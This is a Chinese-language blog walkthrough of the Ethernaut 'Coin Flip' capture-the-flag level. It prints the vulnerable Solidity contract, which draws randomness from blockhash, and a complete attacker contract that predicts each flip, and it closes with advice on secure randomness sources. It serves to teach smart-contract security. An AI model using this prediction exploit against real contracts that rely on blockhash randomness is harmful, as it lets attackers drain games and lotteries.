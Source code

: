 title: 3. Coin Flip
date: 2022-07-11 19:32:21
tags:
- ethernaut
categories: Web3
---
**Difficulty**: 3/10
**Level**: https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f

先看通关要求：

> 这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

### 分析

合约代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

本关使用 block number 作为随机数，计算 div，然后和 _guess 进行比较。

由此可知只要保证调用方和被调用方的block number 相同就可以计算出结果。

个人钱包调用不能保证block number相同，需要单独写一个合约调用CoinFlip合约即可。

### 解题

获取关卡合约实例地址：

```jsx
instance
```

打开 [Remix IDE](https://remix.ethereum.org/)，新建文件 CoinFlip.sol：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.9;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) {
      levelInstance = _levelInstance;
  }

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }
}
```

编译部署，在 constructor 填入关卡合约地址然后部署。

然后分别在10个区块中调用 guess 函数。

最后提交，本关完成。

### 后续

通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.

想要获得密码学上的随机数,你可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.

一些其它的选项包括使用比特币block headers (通过验证 [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), 或是 [Oraclize](http://www.oraclize.it/)).